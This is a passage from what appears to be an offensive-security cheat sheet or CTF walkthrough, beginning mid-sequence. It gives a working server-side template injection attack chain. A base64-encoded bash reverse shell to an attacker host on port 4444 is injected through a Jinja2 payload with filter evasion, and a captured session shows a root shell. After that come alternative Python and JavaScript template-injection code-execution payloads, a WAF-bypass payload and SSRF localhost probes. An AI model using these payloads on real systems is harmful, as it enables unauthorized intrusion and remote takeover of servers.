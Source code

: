 `input`
```shell
echo 'bash -i >& /dev/tcp/LHOST/4444 0>&1' | base64
```
`output`
```
c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTA4LzQ0NDQgMD4mMQo=
```
#### [4] now start a listener
```bash
nc -lvvp 4444
```

#### [5] resend the request with this command
```python
{{config.__class__.__init__.__globals__['os'].popen('echo${IFS}c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTA4LzQ0NDQgMD4mMQo=${IFS}|base64${IFS}-d|bash').read()}}
```

#### [6] if everything works currectly. You should get a reverse shell.
```bash
nc -vv -lnp 4444
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.11.130.
Ncat: Connection from 10.10.11.130:54434.
sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
```

#### [+] or we can try those above commands also, if the previous one doesn't works.
```python
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```
```python
{{ namespace.__init__.__globals__.os.popen('id').read() }}
```
```python
{{ "foo".__class__.__base__.__subclasses__()[182].__init__.__globals__['sys'].modules['os'].popen("id").read()}}
```
```js
{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('id')\")()}}
```
#### `bypass common WAF`
```
{%25+include+request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("sleep+5")|attr("read")()+%}
```
--------------------------------------------------------------------------------
# SSRF common payloads
```http
http://127.0.0.1:80
```
```http
http://127.0.0.1:443
```
```http
http://127.0.0.1:22
```